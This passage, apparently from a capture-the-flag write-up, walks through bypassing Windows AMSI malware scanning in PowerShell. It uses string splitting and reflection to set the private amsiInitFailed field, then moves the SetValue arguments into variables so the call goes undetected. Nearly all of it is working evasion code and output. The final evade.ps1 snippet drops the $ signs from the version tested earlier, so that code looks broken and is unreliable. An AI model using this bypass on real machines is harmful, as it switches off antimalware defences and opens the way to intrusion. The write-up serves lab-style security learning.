 It returns something non-blocked so i can repeat the step with the next call block :

```powershell
PS C:\Users\Student> [Ref].Assembly.GetType('Sys'+'tem.Manag'+'ement.Automa'+'tion.Amsi'+'Utils').GetField('amsiIni'+'tFailed','NonP'+'ublic,Sta'+'tic')


Name                   : amsiInitFailed
MetadataToken          : 67114376
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Private, Static
FieldType              : System.Boolean
MemberType             : Field
ReflectedType          : System.Management.Automation.AmsiUtils
DeclaringType          : System.Management.Automation.AmsiUtils
Module                 : System.Management.Automation.dll
IsPublic               : False
IsPrivate              : True
IsFamily               : False
IsAssembly             : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsStatic               : True
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsSpecialName          : False
IsPinvokeImpl          : False
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}
```
{: .nolineno }

Lastly, adding the "SetValue($null,$true)" return the error again and is detected as malicious. We can evade this by replacing the parameters by other variables :

```powershell
PS C:\Users\Student> $x = $null
PS C:\Users\Student> $y = $true
PS C:\Users\Student> [Ref].Assembly.GetType('Sys'+'tem.Manag'+'ement.Automa'+'tion.Amsi'+'Utils').GetField('amsiIni'+'tFailed','NonP'+'ublic,Sta'+'tic').SetValue($x,$y)
```
{: .nolineno }

Not detected. Let's submit this snippet to the webserver to get the flag :

evade.ps1 :

```powershell
$x = $null
$y = $true
[Ref].Assembly.GetType('Sys'+'tem.Manag'+'ement.Automa'+'tion.Amsi'+'Utils').GetField('amsiIni'+'tFailed','NonP'+'ublic,Sta'+'tic').SetValue(x,y)
```
{: .nolineno }
